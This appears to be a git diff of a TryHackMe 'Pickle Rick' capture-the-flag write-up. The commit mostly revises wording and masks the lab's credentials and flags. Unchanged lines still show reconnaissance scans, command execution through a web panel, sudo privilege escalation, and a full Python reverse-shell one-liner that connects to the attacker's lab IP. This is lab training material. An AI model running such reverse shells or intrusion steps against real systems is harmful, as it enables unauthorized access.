

fixes to PickleRick

Changed region(s): [[0.0, 0.0, 0.9926, 1.0]]

diff --git a/_posts/2021-04-04-PickleRick-Writeup-TryHackMe.md b/_posts/2021-04-04-PickleRick-Writeup-TryHackMe.md
@@ -46,7 +46,7 @@ PORT   STATE SERVICE VERSION
 |_http-title: Rick is sup4r cool
 Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 ```
-Finally let's run an http-enum script on port 80: ```nmap --script http-enum -p80 10.10.123.34 -oN webscan.nmap```
+Finally, let's run an http-enum script on port 80: ```nmap --script http-enum -p80 10.10.123.34 -oN webscan.nmap```
 
 ```bash
 Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-04 13:31 -04
@@ -72,7 +72,7 @@ As a good habit, you may want to check the source code of the webpages.
 
 ![Web Page Source Code](/images/THM/PickleRick/21-username.png){: .align-center}
 
-And just like that we get the username ```R1ckRul3s```
+And just like that we get the username ```R1******```
 
 ---
 
@@ -86,7 +86,7 @@ And just like that we get the username ```R1ckRul3s```
 
 ![robots](/images/THM/PickleRick/24-robots-web.png){: .align-center}
 
-In robots.txt we see ```Wubbalubbadubdub```, let's save it in case it's useful later. 
+In robots.txt we see ```Wub********```, let's save it in case it's useful later. 
 
 Just to be sure, now we will launch a gobuster directory scan in case nmap missed something. 
 
@@ -120,9 +120,9 @@ Gobuster will find ```/assets``` directory that does not contain anything intere
 
 ## Gainning access
 
-Moving on to the login page, using the info gathered before, we could try to use ```R1ckRul3s``` as username and ```Wubbalubbadubdub``` as password... and it actually works.
+Moving on to the login page, using the info gathered before, we could try to use ```R1*****``` as username and ```Wub********``` as password... and it actually works.
 
-The next we will see is a Command Panel and an input to execute commands.
+The next we will see is a Command Panel and an input to run commands.
 
 ![Command Panel](/images/THM/PickleRick/26-command-panel.png){: .align-center}
 
@@ -130,13 +130,13 @@ If we try to navigate to another tab, we get the message: *Only the **REAL** ric
 
 ![Denied](/images/THM/PickleRick/33-denied.png){: .align-center}
 
-So, back to the Command Panel, let's assume we could execute system commands and try some.
+Back at the Command Panel, let's assume we can run system commands and try a few.
 
 ![whoami](/images/THM/PickleRick/27-command-whoami.png){: .align-center}
 
 ![ls](/images/THM/PickleRick/30-command-panel-ls.png){: .align-center}
 
-Executing ```cat Sup3rS3cretPickl3Ingred.txt``` the following message will show up. 
+Executing ```cat Sup3rS3cretPickl3Ingred.txt```, the following message will show up. 
 
 ![cat](/images/THM/PickleRick/28-command-cat.png){: .align-center}
 
@@ -156,25 +156,25 @@ Using this [Reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shel
 python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.13.0.103",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
 ```
 
-Now, we open a listener on port 443 with netcat and execute our command to get the shell.
+Now, we open a listener on port 443 with netcat and run our command to get the shell.
 
 ![Shell](/images/THM/PickleRick/34-first-shell.png){: .align-center}
 
 ## Privilege Escalation
 
-This is the easiest part, the first thing we could do is check the ```www-data``` user privileges with ```sudo -l```. We will find out that we can execute command as root without providing password.
+This is the easiest part, the first thing we could do is check the ```www-data``` user privileges with ```sudo -l```. We will find out that we can execute commands as root without providing password.
 
-So we make ```sudo su``` to become root user.
+Running ```sudo su``` will make us root user.
 
 ![Privesc](/images/THM/PickleRick/37-privesc.png){: .align-center}
 
-The last thing would be locating the other two ingredients. If we check the  ```/home``` path we will see rick directory inside.
+The last thing would be locating the other two ingredients. If we check the  ```/home``` path we will see rick directory inside along with the second ingredient.
 
 ![Second Flag](/images/THM/PickleRick/35-second-ing.png){: .align-center}
 
 **Second Ingredient:** ```1 je*******```
 
-And the last ingredient could be found in the home directory for root or using the find command.
+And the last ingredient could be found in the home directory for root or using ```find```.
 
 ```bash
 find / -type f -name "*.txt" | grep -v "usr"
